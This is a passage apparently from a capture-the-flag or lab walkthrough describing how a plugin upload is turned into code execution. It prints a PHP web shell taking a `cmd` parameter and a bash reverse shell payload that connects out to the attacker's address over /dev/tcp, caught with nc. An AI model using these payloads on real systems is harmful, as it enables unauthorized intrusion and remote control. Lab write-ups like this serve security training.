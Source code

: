 ![](/img/1559745453574.png)

I can go to the url and add a `cmd=id` parameter and I have execution:

![](/img/1559745485925.png)

### Shell

To upgrade this to a shell, I'll go back into repeater and change the
content of my plugin from:



    <?php system($_REQUEST['cmd']); ?>



to:



    <?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'"); ?>



I'll submit, and it overwrites my previous shell. Then I'll refresh the
page, and `nc` gets a shell:


